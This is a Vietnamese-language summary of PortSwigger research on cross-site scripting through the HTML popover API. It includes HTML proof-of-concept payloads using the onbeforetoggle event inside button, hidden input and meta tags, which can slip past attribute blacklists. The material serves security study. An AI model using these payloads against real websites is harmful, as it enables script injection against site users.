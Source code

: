  ---
- **Published:** 11 July 2023 at 13:00 UTC
- **Updated:** 11 July 2023 at 13:00 UTC
- Source: [Exploiting XSS in hidden inputs and meta tags | PortSwigger Research](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags)

### Introduction
Tính năng mới của trình duyệt gọi là [popover](https://developer.chrome.com/blog/introducing-popover-api?hl=vi) cho phép đánh dấu một phần tử bằng thuộc tính `popover` để nó bị ẩn cho tới khi được bật bởi một trigger có `popovertarget` (ví dụ: `button`). Với popover bạn có thể dùng hai sự kiện liên quan là `onbeforetoggle` (chạy **trước** khi popover mở/đóng) và `ontoggle` (chạy **sau** khi trạng thái thay đổi).
Điều hay ho là `onbeforetoggle` thường khó có thể bị chặn trên blacklist thuộc tính
```html
<button popovertarget=x>Click me</button>
<xss onbeforetoggle=alert(1) popover id=x>XSS</xss>
```
### XSS in hidden input
Popover có thể hoạt động với input `hidden` -> Điều này quan trọng vì trước đây XSS nằm trong `input type="hidden"` khó khai thác và hầu hết event không kích hoạt được 
```html
<button popovertarget=x>Click me</button> # point 1
<input type="hidden" value="y" popover id=x onbeforetoggle=alert(1)> #point 2
```
Ta có thể thấy chúng ta cần 2 điểm để injection XSS. Thứ nhất sẽ là `<buton ...>` và điểm còn lại sẽ có thuộc tính trigger xss. Tuy nhiên trong trường hợp popover có thể đang được sử dụng và handle 1 `popover` có id, nếu ta có thể chèn được một `popover` khác có id trùng với cái kia và được browser xử lí trước thì hoàn toàn có thê thực thi mã js.
```html
<!-- Injection occurs inside a hidden input attribute -->
<input type="hidden" value="y" popover id=x onbeforetoggle=alert(1)>

<!-- Existing popup code-->
<div id=x popover>I'm a popup</div>
<button popovertarget=x>Click</button>
<!-- End existing code -->
```

### XSS in meta tag
```html
<head>
<!-- Injection occurs inside meta attribute -->
<meta name="apple-mobile-web-app-title" content="Twitter" popover id=newsletter onbeforetoggle=alert(1) />
</head>
<body>
<!-- Existing code -->
<button popovertarget=newsletter>Subscribe to my newsletter</button>
<div popover id=newsletter>My newsletter popup</div>
<!-- End existing code -->
</body>
```
